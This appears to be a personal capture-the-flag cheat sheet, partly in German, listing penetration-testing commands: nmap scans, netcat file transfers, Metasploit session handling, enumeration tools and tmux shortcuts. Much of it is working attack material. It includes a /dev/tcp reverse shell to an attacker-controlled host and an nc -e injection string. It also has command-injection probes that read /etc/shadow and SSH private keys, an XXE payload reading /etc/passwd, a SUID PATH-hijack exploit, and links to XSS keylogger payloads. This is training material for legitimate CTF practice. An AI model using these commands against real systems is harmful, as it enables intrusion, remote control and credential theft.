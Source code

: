# docs-ctf-cheatsheet
NMAP:
nmap -sC -sV -oA nmap/initial IPADRESS (standart)
nmap -p- -T5 -sC -sV -oA nmap/second IPADRESS (quick scan of all ports)

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one
-p- : Enables scanning across all ports, not just the top 1000
-sC : Scan with default NSE scripts. Considered useful for discovery and safe
-sV : Attempts to determine the version of the service running on port
-oA [dir] all output to [dir]

NETCAT:
send data:
	reciever:
	nc -l -p 1234 > FILE.NAME       (sometimes netcat instead of nc!)
	sender:
	nc -w 3 DESTINATION 1234 < FILE.NAME

MSF:
search
	search …
send data
	upload /path/to/file
run exploit in background and enter the session
run -j
sessions
	sessions -i [session id]
get "normal" shell
	shell
move out of a session
	ctrl+z

HTTPSERVER:
send data:
	sender:
	python -m SimpleHTTPServer 8083
	reciever:
	curl IPADRESSSENDER:8083/FILE.NAME
	curl 10.10.14.145:8083/47502.py > hmm.py
	OR
	wget IPADRESSSENDER:8083/FILE.NAME

REVERSE SHELL:
1. setup listener on my machine:
nc -lvnp 8081
2. go to
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
and try them out on target machine
easiest rs : ;nc -e /bin/bash

INTERACTIVE SHELL:
target:
	export RHOST=<IPADRESSATTACKER>
attacker:
	nc -lp 14445
target:
	bash -c 'bash -i &>/dev/tcp/$RHOST/14445 0<&1'
attacker (now on targetshell):
	python -c 'import pty; pty.spawn("/bin/bash")'
	OR
	python3 -c 'import pty; pty.spawn("/bin/bash")'

COMMAND INJECTION
Linux
whoami
id
ifconfig/ip addr
uname -a
ps -ef
cat /etc/passwd
cat /etc/shadow
cat /home/USERNAME/.ssh/id_rsa
Windows
whoami
ver
ipconfig
tasklist
netstat -an

CHECK IF SOMETHING IS EXECUTED
attacker:
	sudo tcpdump ip proto \\icmp -i tun0
target:
	ping [local tun0 ip] -c 1

BROKEN AUTHENTICATION:
password guessing/bruteforce
weak session cookies
reregistration of existing user “ admin” (with space) and gain all rights of “admin”
1. try register as randomname
2. if “randomname has already been taken” try register with “ randomname” and see what happens

XML EXTERNAL ENTITY (XXE):
try :
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
and:
<!DOCTYPE replace [<!ENTITY name "success"> ]>
 <userInfo>
  <firstName>xxe</firstName>
  <lastName>&name;</lastName>
 </userInfo>

XSS PAYLOADS:
Popup's (<script>alert(“Hello World”)</script>) - Creates a Hello World message popup on a users browser.
Writing HTML (document.write) - Override the website's HTML to add your own (essentially defacing the entire page).
XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.
Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner
test <img src=x onerror=alert(2)>


POST EXPLOITATION WINDOWS:

Get-WmiObject -Class win32_OperatingSystem (Power Shell)
run post/windows/gather/checkvm (Metasploit) - check if vm
run post/multi/recon/local_exploit_suggester (Metasploit)
run post/windows/manage/enable_rdp (Metasploit)
ipconfig
try migrate spoolsv.exe
getuid
sysinfo
getprivs
run autoroute -s [SUBNET IP] -n 255.255.255.0



Enummeration Scripts:
Local:
LinEnum
LinPEAS
WinPEAS
Remote:
	enum4linux [OPTIONS] [IP] - works for windows and linux SMB SAMBA


SMBClient:
smbclient //[IP]/[DIRECTORY] -U [USERNAME]

NFS:
sudo mount -t nfs [IP]:[tragetdirectory] /tmp/mount/ -nolock

SUID:
find SUID : find / -perm -u=s -type f 2>/dev/null

Exploit /usr/bin/menu with SUID :
	cd /tmp
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu


DNS PROBLEM (for Hack The Box)
sudo nano /etc/hosts
add [IPADRESS] [DOMAIN], save and it should work!

SSH:
ssh-keygen -f [NAME]
	now i can write the [NAME].pub file content (exept for the last part with my USER@IP
and add “ssh-rsa “ before the key if not there) to the
/home/[USER]/.ssh/authorized_keys/
then ssh -i [NAME] [USER]@[IP]



PYTHON VIRTUAL ENVIRONMENT
	env init:
		python3 -m venv [NAME UMGEBUNG]
	env laden:
		source [NAME UMGEBUNG]/bin/activate
	packet installieren (in env):
		pip3 install [PACKET NAME]
	env exit:
		deactivate
	pip zeigt installierte packets:
		pip3 freeze

JAVA-VERSION ARCH LINUX
some programs run only with a certain jre, so you can use the following to set the default jre on your system:
sudo archlinux-java set java-8-openjdk/jre

TMUX:
	neue tmux session in gewünschter directory starten:
		tmux new -s [NAME]
	new  panel
CMD+B, c
rename panel
	CMD+B, ,
split panel vertical
	CMD+B, %
split panel horizontal
	CMD+B, “
navigate between panel
	CMD+B, pfeiltasten
resize panel
	CMD+B + pfeiltasten

GOBUSTER
./gobuster dir -u http://ADRESS/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
maybe mit +x php

